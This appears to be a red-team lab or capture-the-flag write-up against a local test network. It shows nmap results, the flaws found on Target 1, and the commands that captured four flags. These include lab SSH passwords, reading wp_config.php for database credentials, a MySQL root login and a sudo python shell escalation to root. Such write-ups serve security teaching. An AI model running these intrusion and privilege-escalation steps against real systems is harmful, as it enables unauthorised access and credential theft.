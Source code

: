 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS-sV -O 192.168.1.0/24
Nmap scan report for 192.168.1.1
Host is up (0.00057s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7|2008 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008::sp1
cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (87%), Microsoft Windows 7 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00071s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6, Linux 5.0 - 5.3
Network Distance: 1 hop
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00092s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.00096s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.000046s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 6 (protocol 2.0)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 34.52 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - `wpscan` enumerate usernames
    - running `wpscan` was able to enumerate usernames for the target system.
- ![wpscan](./Images/wpscan2.JPG)

  - `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- ![hydrascan](./Images/Michael%20hydra%20crack%20password.JPG)

  - Database credentials for wordpress are written in plain text.
    - Database credentials were stored in `/var/www/html/`
    - This allowed me to access the mysql database and extract confidential information such as password hashes.
- ![sqlcredentials](./Images/MySQL%20password.JPG)

  - `ssh` with user `steven` credentials.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - Running `john` against the password hashes gave user `steven`'s password.
    - This allowed me to find user `steven`'s sudo privilages.
- ![stevensudo](./Images/Steven%20sudo%20priv%20file.JPG)

  - `python` can be run with `sudo` privilages.
    - The user steven has the ability to run `python` with `sudo`.
    - Running `python` with `sudo` can execute arbitrary code on the system to get a shell with root access.
- ![pythonshell](./Images/pythonshell.JPG)

  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - The version of Samba running on this server allows an attacker to execute malicious code remotely.

  - [CVE-2017-3167](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3167)
    - The version of Apache running on this server allows an attacker to bypass authentication by use of third party module.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using `michael`'s credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var`
      - `grep -rnw ./ -e flag1 2>/dev/null`
- ![flag1](./Images/flag1.JPG)

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using `michael`'s credentials, I was able to cat the flag 2 file found in `/var/www`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var/www`
      - `cat flag2.txt`
- ![flag2](./Images/flag2.JPG)

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of `wp_posts` in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cat /var/www/html/wp_config.php`
      - `mysql -u root -p` (password R@v3nSecurity)
      - `USE wordpress;`
      - `USE wp_posts;`
      - `SELECT * FROM wp_posts;`
- ![flag3](./Images/flag3.JPG)

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using `john`, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
    - Commands run:
      - `ssh steven@192.168.1.110 (password pink84)`
      - `python -c 'import os; os.system("/bin/sh")'`
      - `cat /root/flag4.txt`
- ![flag4](./Images/flag4.JPG)
